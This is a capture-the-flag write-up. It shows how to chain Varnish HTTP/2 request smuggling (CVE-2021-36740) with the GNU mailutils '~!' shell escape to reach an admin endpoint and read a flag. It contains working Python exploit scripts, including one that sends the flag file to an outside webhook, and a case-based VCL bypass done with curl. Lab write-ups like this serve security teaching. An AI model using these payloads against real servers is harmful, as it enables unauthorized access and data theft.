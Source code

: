 # Smuggling Mail

## Challenge

```txt
Join our waitlist and we'll let you know about apartment vacancies!
```

## Walkthrough

We're given a pretty simple nodejs express server.

```js
app.use("/", express.static(path.join(__dirname, "public")));
app.use("/admin", express.static(path.join(__dirname, "admin")));

app.post("/waitlist", (req, res) => {
    res.send("Sorry, the waitlist is currently closed.");
});

app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], { timeout });
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }

    res.end();
});
```

The server is behind a simple varnish reverse proxy.

```vcl
sub vcl_recv {
    if (req.url ~ "/admin" && !(req.http.Authorization ~ "^Basic TOKEN$")) {
        return (synth(403, "Access Denied"));
    }
}
```

TOKEN generated as such.

```sh
sed -i "s/TOKEN/$(base64 < /dev/urandom | fold -w 64 | tr '/+' '_-' | head -n 1)/" /etc/varnish/varnish.vcl
```

The server itself doesn't have much surface area - the only user controlled input is on /admin/alert and we can only access that if we successfully guess 64 random bytes, unlikely. Checking the package.json revealed that expressJS was up to date so clearly the exploit wasn't there. This prompted me to look into the varnish server especially with the challenge being clearly hinted as a request *smuggling* challenge.

The Dockerfile revealed the varnish version was clearly out of date:

```Dockerfile
FROM varnish:6.4.0
```

Digging around I found [CVE-2021-36740](https://security.snyk.io/vuln/SNYK-DEBIAN11-VARNISH-1317119).

> Varnish Cache, with HTTP/2 enabled, allows request smuggling and VCL authorization bypass via a large Content-Length header for a POST request.

Looks promising, the hitch configuration has HTTP/2 enabled (`alpn-protos = "h2, http/1.1"`) and we have a valid post endpoint that we can abuse (`/waitlist`).

No POCs exist for this vulnerability so after playing with the `Content-Length` header myself I managed to get request smuggling working.

```py
import httpx
client = httpx.Client(http2=True, verify=False)

msg = '"hi"'
body = 'POST /admin/alert HTTP/1.1\r\nContent-Type: application/json\r\nContent-Length: {}\r\n\r\n{{"msg": {}}}'.format(len(msg)+9, msg)
resp = client.post("https://localhost:4000/waitlist", headers={'Content-length': '0'}, data=body)
```

I added some request logging in the nodejs server to check my exploit locally.

```log
POST /waitlist 200 2.834 ms - 40
writing hi
POST /admin/alert 200 13.788 ms - -
```

Now I had request smuggling working but that still didn't get us the flag. Our input data was being passed into the body of an email generated by GNU mailutils.

```js
const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], { timeout });
proc.stdin.write(req.body.msg);
```

Digging into the documentation I found that using mailutil commands you can actually [execute shell commands](https://mailutils.org/manual/mailutils.html#Executing-Shell-Commands) within the mail body.

> The ‘~!’ escape executes specified command and returns you to mail compose mode without altering your message.

Putting this all together I smuggled a request to the /admin/alert endpoint that executed a shell command leaking the flag.

```py
import httpx

msg = '"~! python -c \\\"import urllib2; urllib2.urlopen(urllib2.Request(\'https://webhook.site/<redacted>\', open(\'flag.txt\', \'r\').read()))\\\""'

client = httpx.Client(http2=True, verify=False)
body = 'POST /admin/alert HTTP/1.1\r\nContent-Type: application/json\r\nContent-Length: {}\r\n\r\n{{"msg": {}}}'.format(len(msg)+9, msg)
resp = client.post('https://localhost:4000/waitlist', headers={'Content-length': '0'}, data=body)
```

Pretty interesting "feature" for a cli mail client...

## Solve

`flag{5up3r_53cr3t_4nd_c001_f14g_g035_h3r3}`

## Bonus

My teammate [Vie](https://github.com/jamiepoli) pointed out that in Varnish you can bypass the VCL and as such the need to smuggle a request by simply capitalizing characters in `admin`.

```sh
$ curl https://localhost:4000/admin/alert -k -X POST
Access Denied%

$ curl https://localhost:4000/Admin/alert -k -X POST
$ # works due to the capital A
```

lol
